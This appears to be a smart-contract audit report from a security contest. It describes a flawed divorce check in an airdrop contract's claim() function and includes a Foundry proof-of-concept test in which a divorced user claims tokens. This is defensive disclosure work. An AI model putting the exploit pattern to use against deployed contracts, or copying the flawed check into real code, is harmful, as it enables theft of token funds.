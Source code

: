 ### Relevant GitHub Links
	
https://github.com/Cyfrin/2024-02-soulmate/blob/main/src/Airdrop.sol#L53

## Summary

Incorrect validation check in the `Airdrop.sol::claim()` function will allow divorced users to claim airdrop tokens.

## Vulnerability Details

In the `Airdrop.sol::claim()` function, the following code block checks the divorce status of soulmate and reverts the transaction if soulmate is divorced:

```javascript
// No LoveToken for people who don't love their soulmates anymore.
if (soulmateContract.isDivorced()) revert Airdrop__CoupleIsDivorced();
```

The `Soulmate.sol::isDivorced()` is implemented as follows:

```javascript
/// @notice Cancel possibily for 2 lovers to collect LoveToken from the airdrop.
function isDivorced() public view returns (bool) {
@>    return divorced[msg.sender];
}
```

Divorce status is checked for the `msg.sender`. When checking the divorce status in the `Airdrop.sol::claim()` function, the divorce status is checked for the `Airdrop.sol` contract instead of the user wanting to claim airdrop tokens.

## Impact

Divorced users are able to claim airdrop tokens.

## Proof of Concept (PoC)

Add the following test in `AirdropTest.t.sol`:

```javascript
function test_divorcedSoulmatesCanClaimTokens() public {
    _mintOneTokenForBothSoulmates();
    uint256 airdropVaultBalanceBeforeClaim = loveToken.balanceOf(address(airdropVault));
    uint256 divorcedUserBalanceBeforeClaim = loveToken.balanceOf(soulmate1);
    assertEq(divorcedUserBalanceBeforeClaim, 0);

    vm.warp(block.timestamp + 1 days);

    vm.startPrank(soulmate1);
    soulmateContract.getDivorced();
    assertTrue(soulmateContract.isDivorced());
    airdropContract.claim(); // divorced user was allowed to claim airdrop tokens
    vm.stopPrank();

    uint256 airdropVaultBalanceAfterClaim = loveToken.balanceOf(address(airdropVault));
    uint256 divorcedUserBalanceAfterClaim = loveToken.balanceOf(soulmate1);

    assertGt(divorcedUserBalanceAfterClaim, divorcedUserBalanceBeforeClaim);
    assertEq(airdropVaultBalanceAfterClaim, airdropVaultBalanceBeforeClaim - divorcedUserBalanceAfterClaim);
}
```

